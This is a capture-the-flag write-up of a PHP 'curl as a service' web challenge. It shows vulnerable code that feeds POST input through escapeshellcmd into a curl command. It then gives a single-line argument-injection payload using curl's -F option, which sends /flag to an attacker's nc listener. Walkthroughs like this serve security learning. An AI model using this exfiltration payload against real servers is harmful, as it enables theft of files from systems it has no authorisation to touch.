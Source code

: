 ```yaml
---
title: Caas
date: 2021-04-25 12:52:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


Looking at the name of the challenge, we can assume it has something to do with `curl`. Which could be vulnerable to _command injection_. However, let's check the source code before making any assumption. (\* ^ ω ^)

The webpage looks like some sort of service using presumably `curl` to query IP addresses:
![](/assets/img/caas_web.png#center)
## Vulnerability
Let's take a look at `CurlController.php`:
```php
<?php
class CurlController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function execute($router)
    {
        $url = $_POST['ip'];

        if (isset($url)) {
            $command = new CommandModel($url);
            return json_encode([ 'message' => $command->exec() ]);
        }
    }
}
```
It takes an `ip` from the body without any sanitization and creates a new Command Model, so let’s check what the file `CommandModel.php` does:
```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```
Ok, we have a main point of interest. We can see that constructor builds the `curl` command from the input parameter.

We can’t inject arbitrary commands to this because of the [escapeshellcmd](https://www.php.net/manual/en/function.escapeshellcmd.php) function but we can add arbitrary parameters. Looking at the [curl manual pages](https://curl.se/docs/manpage.html) we see there is a -F option to exfiltrate a file. There is also this [cheatsheet](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl) which demonstrates how you can bypass the escapeshellcmd function.
## Exploitation
With that information, we can simply request the flag and send it to our host machine. Type the following command after setting up a nc listener on port 6666:
```bash
curl -d "ip=-F flag=@/flag http://[MY-IP]:6666/" http://[DOCKER-IP]/api/curl
```
We receive the flag:

> CHTB{f1le_r3trieval_4s_a_s3rv1ce

٩(◕‿◕｡)۶
